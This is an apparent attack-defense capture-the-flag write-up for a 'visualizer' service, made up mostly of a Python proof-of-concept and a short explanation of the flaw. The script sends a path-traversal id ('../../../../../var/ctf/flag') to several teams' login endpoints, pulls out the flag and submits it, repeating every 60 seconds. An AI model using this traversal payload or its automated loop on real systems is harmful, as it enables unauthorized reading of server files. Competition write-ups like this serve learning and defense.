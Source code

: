 # Writeup for vizualizer service

## PoC code
```python
import requests
from submitOpen import send
from time import sleep

def q(host):
    data = {'id': '../../../../../var/ctf/flag'}
    r = requests.post(host, data=data)
    return r.text

host_list = [
        ('http://localhost:12341/login', 'Team 1'),
        ('http://localhost:12342/login', 'Team 3'),
        ('http://localhost:12343/login', 'Team 4'),
        ('http://localhost:12344/login', 'Team 5'),
        ('http://localhost:12345/login', 'Team TA'),
        ]

def attack():
    for h, tn in host_list:
        try:
            a = q(h)
            key = a.split('\n')[-1]
            print tn
            print repr(key)
            send('Team 2', tn, 'Visualizer', key)
        except Exception:
            print Exception.msg
            pass

while True:
    attack()
    print '-------------------------------------------'
    sleep(60)
```

## Description

When getting user's id at a first page, server doesn't check whether
given input is valid or not. Since server finds user's public key with
concatnating paths, we can simply inject path of flag at user's id field to
get flag.
